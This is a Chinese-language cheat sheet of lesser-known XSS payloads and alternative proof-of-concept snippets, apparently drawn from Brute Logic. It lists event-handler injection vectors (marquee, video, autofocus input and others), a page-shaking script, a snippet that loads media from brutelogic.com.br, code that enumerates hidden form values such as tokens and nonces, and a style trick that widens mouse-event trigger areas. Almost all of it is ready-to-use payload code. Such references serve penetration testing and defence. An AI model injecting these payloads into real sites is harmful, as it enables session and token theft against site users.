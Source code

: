 ## 较少为人知的 XSS payload

**一组较少为人知的 XSS 注入payload。**

```javascript
<marquee onstart=alert(1)>
<audio src onloadstart=alert(1)>
<video onloadstart=alert(1)><source>
<video ontimeupdate=alert(1) controls src=//brutelogic.com.br/x.mp4>
<input autofocus onblur=alert(1)>
<keygen autofocus onfocus=alert(1)>
<form onsubmit=alert(1)><input type=submit>
<select onchange=alert(1)><option>1<option>2
<menu id=x contextmenu=x onshow=alert(1)>right click me!
<object onerror=alert(1)>
```



## 替代 PoC - 摇动页面元素

**用于摇动页面中的所有元素，作为漏洞的良好可视化效果。**

```javascript
setInterval(x=>{b=document.body.style,b.marginTop=(b.marginTop=='4px')?'-4px':'4px';},5)
```



## 替代 PoC - 暴力效果

**用于显示《真人快打》中 Sub-Zero 角色的图像，并播放“Brutality”游戏音效。**

```javascript
d=document,i=d.createElement('img');i.src='//brutelogic.com.br/brutality.jpg';
d.body.insertBefore(i,d.body.firstChild);new(Audio)('//brutelogic.com.br/brutality.mp3').play();
```



## 替代 PoC - 窃取隐藏值

**用于证明目标页面中的所有隐藏 HTML 值（如令牌和随机数）可以被窃取。**

```javascript
f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden')
{alert(e[n].name+': '+e[n].value)}}}
```



## 更易触发鼠标事件的XSS

**用于为鼠标事件（如 `onmouseover`、`onclick` 等）创建更大的触发区域。**

```javascript
style=position:fixed;top:0;left:0;font-size:999px
```

